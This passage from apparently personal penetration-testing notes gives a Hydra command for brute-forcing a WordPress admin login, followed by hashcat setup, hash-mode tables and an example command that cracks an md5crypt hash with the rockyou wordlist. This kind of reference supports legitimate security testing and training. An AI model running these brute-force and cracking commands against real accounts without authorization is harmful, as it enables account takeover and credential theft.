         -   Hydra brute force a Wordpress admin login
        
            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

          

-   <span id="_bnmnt83v58wk" class="anchor"><span id="_Toc480741822" class="anchor"></span></span>Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking  
        [*https://crackstation.net/*](https://crackstation.net/)
        [*http://finder.insidepro.com/*](http://finder.insidepro.com/)

    -   Hashcat
    Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.

      `apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev`

      and

      `apt-get install pocl-opencl-icd`


    Cracking Linux Hashes - /etc/shadow file
    ```
     500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
    3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
    7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
    1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems
    ```
    Cracking Windows Hashes
    ```
    3000 | LM                                               | Operating-Systems
    1000 | NTLM                                             | Operating-Systems
    ```
    Cracking Common Application Hashes
    ```
      900 | MD4                                              | Raw Hash
        0 | MD5                                              | Raw Hash
     5100 | Half MD5                                         | Raw Hash
      100 | SHA1                                             | Raw Hash
    10800 | SHA-384                                          | Raw Hash
     1400 | SHA-256                                          | Raw Hash
     1700 | SHA-512                                          | Raw Hash
    ```

    Create a .hash file with all the hashes you want to crack
    puthasheshere.hash:
    `$1$O3JMY.Tw$AdLnLjQ/5jXF9.MTp3gHv/`
   
    Hashcat example cracking Linux md5crypt passwords $1$ using rockyou:
   
    `hashcat --force -m 500 -a 0 -o found1.txt --remove puthasheshere.hash /usr/share/wordlists/rockyou.txt`
   
